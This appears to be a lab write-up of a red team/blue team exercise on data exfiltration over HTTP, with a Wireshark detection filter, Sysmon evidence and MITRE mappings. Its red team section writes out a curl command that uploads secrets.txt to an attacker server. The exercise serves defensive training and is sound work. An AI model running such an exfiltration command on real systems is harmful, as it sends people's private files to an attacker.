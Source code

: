 # ✅ Scenario 2 — Data Exfiltration via HTTP

## 🔴 Red Team Action  
Simulated exfiltration of sensitive data by uploading a file via HTTP POST from the victim:  
```powershell
curl.exe -X POST -F "file=@secrets.txt" http://192.168.2.131:8080/upload.php
```
The attacker (Kali) received the file using a PHP HTTP server with POST handling, and the file appeared on the attacker’s machine.

---

## 🔵 Blue Team Detection (Wireshark)
**Filter Used:**  
```wireshark
(http.request or tls.handshake.type==1) and !(ssdp)
```  
Focused on HTTP requests and TLS handshakes while filtering out SSDP noise.  
- Detected abnormal outbound HTTP POST traffic with file uploads.  
- Reconstructed the exfiltrated file from the stream.  
- Sysmon logs (Event ID 1) confirmed `curl.exe` execution with suspicious command-line arguments.

---

## 🧭 MITRE Mapping  
- **T1041 – Exfiltration Over C2 Channel**  
- **T1567 – Exfiltration Over Web Service**  

---

## 📸 Evidence Collected  
- Wireshark capture showing POST request to `/upload.php`.  
- Follow HTTP Stream output confirming file contents.  
- Kali server logs showing `POST /upload.php [200]`.  
- Victim execution of `curl.exe` with suspicious arguments.  
